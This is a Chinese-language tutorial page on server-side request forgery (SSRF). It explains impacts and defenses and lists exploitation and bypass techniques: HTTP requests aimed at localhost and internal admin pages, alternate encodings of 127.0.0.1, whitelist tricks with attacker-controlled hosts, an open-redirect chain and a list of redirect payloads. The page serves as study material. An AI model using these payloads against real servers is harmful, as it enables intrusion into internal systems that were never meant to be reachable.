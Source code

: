 ```yaml
---
sidebar_position: 3
tags: [OWASP, SSRF]
title: SSRF
sidebar_label: SSRF
description: 介绍 SSRF 注入漏洞&ByPass&利用
---
```

# SSRF
## 介绍
SSRF 是一种**由攻击者构造请求, 由服务端发起请求**的安全漏洞, 因此一般情况下，SSRF攻击的目标是外网无法访问的内部系统（正因为请求是由服务器端发起的，所以服务器能请求到与自身相连而外网隔离的内部系统）
:::tip
简而言之：SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器, 也可以直观的理解为是一个代理服务器
:::

## Exploit

一般而言, 对于 SSRF 漏洞的最大危害是 `突破了网络边界` , 基本可以达到下面几种危害(但具体能做到哪种程度还需要根据业务环境来判断)
- 扫描内网, 获取主机、端口的情况
- 内网系统攻击: 比如攻击内网 Redis
- 读取文件

:::tip[SSRF 的分类]
- 回显 SSRF : 这种比较简单, 直接响应数据就可以实现判断
- 无回显 SSRF : 难度比较大, 一般可以通过响应时间等来进行判断
:::

### 定位漏洞
通常来说, 根据链接来判断是否存在 SSRF 漏洞是最为直接的方式, 比如 : URL 关键参数
![20240426100728](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240426100728.png)

### 访问后台页面
如果目标存在 SSRF 漏洞, 且存在回显的时候可以使用这种方式来访问后台 (因为一部分网站禁止非本地访问后台)
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

### 协议利用
利用可以利用这种方式扫描内网、查看文件、或者做一些其他操作

* `file://` : 查看文件
* `http://` : 探测内网存活主机
* `dict://` : 探测内网端口
* `sftp://`
* `tftp://`
* `ldap://`
* `gopher://`



## 防御
- 禁止不必要的协议 : `file://` 、`gopher://` 、`dict://` 等
- 统一错误消息, 避免出现根据错误消息判断端口状态等情况
- 禁止 302 跳转，或者每个跳转时进行检查是否是内网 IP
- 设置白名单或限制内网 IP

## ByPass
### URL 解析绕过

这是orange在blackhat大会上提出的 [A-New-Era-Of-SSRF-Exploiting](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)，利用语言本身自带的解析函数差异来绕过检测，在该ppt中举例了大量不同编程语言的url解析函数对url解析的差异，从而导致check_ssrf和do_curl解析不同导致的绕过, 我们在此以 Python 作为举例

```py
import urllib3
from urllib.parse import urlparse

if __name__ == "__main__":
    url = "http://baidu.com\@qq.com"
    print(urllib3.get_host(url))
    print(urllib3.util.parse_url(url).host)
    print(urlparse(url).hostname)
```
![20240426102031](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240426102031.png)

可以看到，对于`http://baidu.com\@qq.com` 来说，urllib3取到的host是baidu.com，而urllib取到的host是qq.com, 如果在check_ssrf中解析url函数用的是urllib3，而业务代码发送请时采用的是urllib，两者之间的解析差异就会导致绕过的情况。

### 更换 IP 地址写法
这种方式多用于绕过黑名单

```bash
http://2130706433/
http://017700000001/
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]/           # 在liunx下可用，window测试了下不行

http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

### 白名单绕过

* @ : 允许我们在主机名之前插入凭据
  ```url
  <user>:<password>@<host>:<port>/<url-path>

  <http://abc@127.0.0.1>
  实际上是以用户名abc连接到站点127.0.0.1，同理
  ```
*  `#` 用于指示 URL 片段
    ```url
    <https://evil-host#expected-host>
    ```
* 用 DNS 命名层次结构将所需输入放入我们控制的完全限定 DNS 名称
  ```url
  <https://expected-host.evil-host>
  # 原理是DNS解析。xip.io可以指向任意域名，即
  127.0.0.1.xip.io，可解析为127.0.0.1
  ```
* 应用程序指定 `https://website.com` 开头的规则，我们可以在我们的域名上创建子域来规避： `http://website.com.attackers.com`
* URL 编码混淆

### 开放重定向
有时可以通过利用开放重定向漏洞来规避任何类型的基于过滤器的防御。 在前面的 SSRF 示例中，假设用户提交的 URL 被严格验证以防止恶意利用 SSRF 行为。但是，允许使用 URL 的应用程序存在开放重定向漏洞。如果用于发出后端 HTTP 请求的 API 支持重定向，您可以构建一个满足过滤器的 URL，并将请求重定向到所需的后端目标。 例如，假设应用程序包含一个开放重定向漏洞，其中包含以下 URL：

```url
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

返回重定向到：

```url
http://evil-user.net
```

可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，方法如下：

```html
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> 此 SSRF 漏洞利用之所以有效，是因为应用程序首先验证提供的`stockAPI`URL 是否位于允许的域中，而事实确实如此。然后应用程序请求提供的 URL，这会触发打开重定向。它遵循重定向，并向攻击者选择的内部 URL 发出请求。

```bash
/%09/google.com
/%5cgoogle.com
//www.google.com/%2f%2e%2e
//www.google.com/%2e%2e
//google.com/
//google.com/%2f..
//\\google.com
/\\victim.com:80%40google.com
```